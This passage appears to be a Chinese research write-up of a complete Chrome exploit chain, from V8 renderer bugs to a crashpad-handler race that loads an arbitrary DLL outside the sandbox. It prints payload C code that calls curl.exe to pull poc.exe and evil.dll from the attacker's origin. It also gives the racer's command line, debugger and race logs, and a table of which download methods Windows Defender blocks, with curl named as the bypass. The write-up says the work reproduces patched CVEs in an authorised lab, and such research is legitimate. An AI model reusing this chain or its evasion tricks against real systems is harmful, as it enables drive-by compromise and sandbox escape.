  u64 pCD  = find_export(k32, g_names + 13);            /* CreateDirectoryA    */
  u64 pGMF = find_export(k32, g_names + 30);            /* GetModuleFileNameA  */
  u64 pCP  = find_export(k32, g_names + 49);            /* CreateProcessA      */
  u64 pWFS = find_export(k32, g_names + 64);            /* WaitForSingleObject */
```

- **零常量**：唯一的 build 锁定 RVA 是 chrome.exe 的 IAT 槽 `+0x3BE4B8`，每次 boot 自动正确（重启免疫）；origin 由 JS 侧注入 `g_origin` 洞（回读首 u32 必须等于 `"http"` 的 LE 0x70747468）；
- **零新 DLL**：85046 之后在渲染器里 `LoadLibraryW` 任何未加载的 DLL（如 wininet）都会在损坏堆上做初始化分配直接崩——只用 kernel32 已加载导出，且逐个用 `expchk.c` 验证不是 kernelbase 转发器（RVA 落进导出目录 = FORWARDER，按名调用会跳进字符串区执行）；
- 五个导出的用途：`curl.exe` 一次拉双文件 → `WaitForSingleObject` 等下载完成 → 直启竞态器 → 自旋 → 主动崩溃：

```c
  /* 1) curl 一次拉两个文件（Win10 自带 curl，Defender 行为监控实测放行） */
  d = acat(d, g_c1);                 /* curl.exe -sf -o " */
  d = acat(d, tmp); d = acat(d, g_m1);          /* %TEMP%\ms64.exe  ← poc.exe  */
  d = acat_v(d, org); d = acat(d, g_c2);        /* ORIGIN/poc.exe -o "         */
  d = acat(d, tmp); d = acat(d, g_m2);          /* %TEMP%\ev64.dll  ← evil.dll */
  d = acat_v(d, org); d = acat(d, g_c3);        /* ORIGIN/evil.dll"            */
  if (!CreateProcessA(0, cmd, 0, 0, 0, 0, 0, tmp, (void*)si, (void*)pi)) return;
  WaitForSingleObject(*pih, 30000);
  ...
  /* 3) 启动竞态器（无 cmd.exe、无 URL 特征命令行） */
  /* "%TEMP%\ms64.exe" --handler "<chrome自身路径>" --db "%TEMP%\msdb"
       --mode race --iters 8 --pages 41 --calc --dbg */
  CreateProcessA(0, cmd, 0, 0, 0, 0, 0, tmp, (void*)si, (void*)pi);

  /* 自旋 ~1s 让竞态器完成布防（原生代码期间 V8 暂停、无 GC 干扰），
     然后主动崩溃渲染器——给 crashpad 竞态一个确定性的起跑信号 */
  for (volatile u64 k = 0; k < 1500000000ull; k++) {}
  *(volatile int*)0xDEAD0021 = 0;
```



**"主动崩溃"是 v4 胜率反超 v1 的最大来源**：曾以为 payload 返回后渲染器"自然会崩"，直到胜轮日志里出现 `"UNREACHABLE — renderer should have crashed"`——callOld 正常返回、渲染器活着、竞态器在等一个永远不会来的崩溃。原生自旋期间 V8 完全暂停、没有 GC 打断，时序完全确定；1 秒足够竞态器完成 dbgwrap 附加与布防，然后写 `0xDEAD0021` 送出起跑信号。

### 3.4 cdb 调试方法论：信标尸检法与 dump 证据链

payload 在渲染器里没有任何输出通道——它的"日志"是**故意崩溃**。每个早退点写 `0xDEAD0000+阶段号`，渲染器崩溃后 crashpad 在 profile 目录留下 minidump，异常地址本身就是进度报告。先用自写的百行 minidump 解析器粗筛，再用 cdb 精读。一次真实的 getter 阶段崩溃尸检：

```
0:000> .ecxr; r rip,rsp,rcx,rdx,r8,r9; u @rip-14 L10; lm a @rip
rax=0000000000000000 rbx=00000268010b3c25 rcx=0000000000000003
rdx=00000268010acea1 rsi=00000268010ab82d rdi=0000000020000000
rip=00007ffb60e8f854 rsp=000000ae9affcaf0
chrome+0x555f854:
00007ffb`60e8f854 f2430f1004f9  movsd xmm0,mmword ptr [r9+r15*8]
                                 ds:00000268`0000fffc=????????????????
00007ffb`60e8f850 4f8d0c23      lea   r9,[r11+r12]
```

逐寄存器读数：r9 = `0x268_00000004`（**V8 cage 基址 + 4**），r15 = `0x1fff`，寻址 `r9+r15*8 = cage+0xFFFC`——正是 **cage+0x10000 未提交页**的越界 double 读（`movsd`），且 `lm` 确认 RIP 落在 chrome.dll（JIT/wasm 陷阱路径）。一次 cdb 会话就把"getter 阶段在本机硬崩"从玄学变成读数：这是复现机把到达部署率从 83% 压到 ~24% 的环境敏感点，而**不是** 0 胜的根因——真正的根因是下面这个：

**跨文件命名契约不一致**（复现 41 轮 0 胜的教训）：竞态器 poc.exe 的植株源查找名硬编码 `%s\evil.dll`，而 payload 的 curl 把 DLL 落盘为 `ev64.dll`——干净环境下 `CreateFileA` 打开源必失败（`fin=INVALID`），竞态赢了也白赢；原开发机 `%TEMP%` 里的残留 evil.dll 掩盖了不一致。决定性实验用"忠实落盘布局"分段复现：

```
[*] llw=0x7ffc7027f6c0 dllname=c810.7913.7ff6.dll
    src=...\s2test\evil.dll fin=FFFFFFFFFFFFFFFF      ← 源打开失败，植株静默跳过
[dbgwrap] WAW#0 ... cs_=0x7ff67913c810               ← 竞态照样赢
（无 calc）                                           ← LoadLibraryW 落空
```

修复是对 poc.exe 打等长二进制补丁（`%s\evil.dll` → `%s\ev64.dll` @0x6ea0），复测即胜。**名字即契约**——这是烧 41 轮换来的经验。

### 3.5 Stage-4：78952 竞态三拍与终局派发

竞态器（ms64.exe，即 crashpad_oob）派生 `chrome.exe --type=crashpad-handler` 并用 dbgwrap 观测，自身日志：

```
[*] hole chain = 0000000040000000
[*] CPADinfo=00007FF77FDFE000 sig=0x43506164 size=0x38 bag=00007FF77FDFC100 entries=41
[*] 触发读 {page+0xe98, 0xb0}，预期越界 0xb8（vuln）
[*] plant page = 0x60000000
[*] mode=race dbg=1
```

三拍对应 §2.3 的溢出几何：



1. **微脉冲**：6 个内核线程把目标页在 `PAGE_NOACCESS ↔ PAGE_READWRITE` 间翻转——首读必须撞 NOACCESS（触发 `ERROR_PARTIAL_COPY` 分支），重试瞬间页必须已翻回 RW（让 0x168 全量读出）；
2. **无钳位重试**：请求 0xB8、实读 0x168、溢出 0xB0 盖到相邻堆槽——minidump 流的 SMMW（SimpleMemoryMappedViewWriter）对象被部分覆写；
3. **派发**：模板劫持后 `Next()` 把 victim 页 memcpy 进 handler `.data` 的 plant 区（布局 `[Q]=宽字符DLL名 / [Q+8]=LoadLibraryW 地址`），`Flush()` 尾部的 CFG 间接调用派发 `LoadLibraryW(Q)`——**handler 进程内任意 DLL 加载**。

命中签名（dbgwrap 观测器实拍）：

```
[dbgwrap] WAW#0 this=0x5458000bd238 data=0x5458000e6000 size=0xf00
          cs_=0x7ff6a577c810(=plant+0x10) buf_=0x7ff6a577b900 bsz=0x1000 used=0xf00
```

`cs_` 指向 plant 区 = 模板劫持成功。evil.dll 的 DllMain **同时**弹出 calc 和 notepad（双开花用于与手工窗口区分；驱动脚本每轮开跑前清场，杜绝残留误报——曾被一个 13:57 的残留计算器连骗两次"6 秒胜利"）。

### 3.6 武器化演进：四代方案的生死簿与 Defender 拦截矩阵

stage-2 落地通道的选择是实测驱动的，不是靠"常识"：



| 代 | 方案 | 结局 | 胜率 |
|---|---|---|---|
| v1 | 渲染器内 `LoadLibraryW("C:\pwn\launch64.dll")` | ✅ 全链曾稳定取胜，但 3 处硬编码本地路径 | 29% |
| v2 | certutil 链式下载 | ❌ Defender 行为监控在**进程创建层**拦截（gle=5/EPERM）；显式 cmd.exe 全路径无效——**拦的是命令行模式，不是映像**。payload 逻辑逐级验证全对，一度误判为 payload bug | ✗ |
| v3 | 页面内嵌 64KB 逐 4 字节写 RX，CreateFileA/WriteFile 落盘 | ⚠️ 功能完全打通（%TEMP% 文件字节级一致）但垫函数 10→130 扰动 V8 堆布局，descriptor discovery 29%→3%。弃用 | 3% |
| **v4 ★** | 系统自带 curl.exe 一次拉双文件 | ✅ blob 仅 2.6KB、原版 10-pad 模块一字不动、零硬编码零预置 | **43%** |

同一台机器、同一分钟实测：certutil 下载模式被拦、curl 三变体全放行——**命令行特征检测覆盖面是补丁式的，同一个原语换个系统自带二进制就绕过**。

### 3.7 稳定性归因：30 轮终测

```
=== 30 rounds: WIN=13 DEPLOY=25 stage1=2 getter=0 alias=0 total=1451s ===
```

- stage1 失败仅 2 轮，getter/alias 0 轮显式失败——到达部署 83%；
- 到达部署后 13/25 胜（52%）——剩余漏损全在 78952 竞态本身（iters=8 的固有窗口）；
- **概率结构 = stage1 × 竞态两处固有随机，桥接环节（部署/curl/启动）已 100% 化**——主动崩溃把"部署了但渲染器不死"的隐性漏损清零后，整链期望 ~2.3 轮、平均 48s/轮。

---

## 四、战果

**从访问一个网页，到非沙箱进程里弹出计算器**——三个 CVE（两个 V8 原语 + 一个 crashpad 溢出）经 wasm 代码别名、IAT 自取桥接、curl 落地缝合为完整链路：零硬编码路径、目标机零预置、期望 ~2.3 轮取胜，且每一米都有可复核的证据链。

全链取胜现场：渲染器按计划崩溃，calc 与 notepad 从**非沙箱的 crashpad-handler** 进程中弹出——OS 沙箱逃逸达成。



---

*本工作为授权隔离研究环境下的公开研究复现，所有目标均为本地测试构建（Chrome for Testing）。85046 修复于 152.0.7977.82、87491 修复于 153.0.8010.36——升级即可清除双 bug 窗口。上游致谢：85046 — Salvatore Gulizia（Serotav）· 87491 — Jihyeon Jeong（Compsec Lab, SNU）。*
